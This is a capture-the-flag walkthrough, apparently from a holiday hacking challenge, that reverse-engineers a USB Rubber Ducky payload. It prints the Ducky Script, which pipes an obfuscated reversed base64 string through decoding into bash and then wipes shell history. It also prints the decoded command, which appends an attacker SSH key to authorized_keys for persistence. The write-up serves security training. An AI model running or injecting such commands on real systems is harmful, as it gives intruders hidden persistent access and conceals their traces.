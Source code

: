 # OBJECTIVE 5 - Strange USB Device #

## OBJECTIVE : ##
>Assist the elves in reverse engineering the strange USB device.  Visit Santa’s Talks Floor and hit up Jewel Loggins for advice.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 5</summary>
  
>-	[Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky
>-	Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.
>-	It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).
>-	The [MITRE ATT&CK™ tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

</details>

#  

## PROCEDURE : ##

The **Strange USB Device** is located on the 2nd floor in the **Speaker Un-Preparedness Room** (by the vending machine).  

At first glance there is a file `inject.bin` in the `/mnt/USBDEVICE/` directory, the contents of which appear to be unreadable.  From the hints and narrative, I know that this is some kind of Rubber Ducky USB device mounted to the terminal.  Conveniently we also find `mallard.py` 

```python
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

That hash at the start of the file is particularly interesting – it also seems to be followed by some handy instructions for us!  So, by first running `rev` to reverse the hash and then `base64 -d` to decode it, we get the following:

```console
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

And there it is – we have a username!  **`ickymcgoop`**`@trollfun.jackfrosttower.com`

 
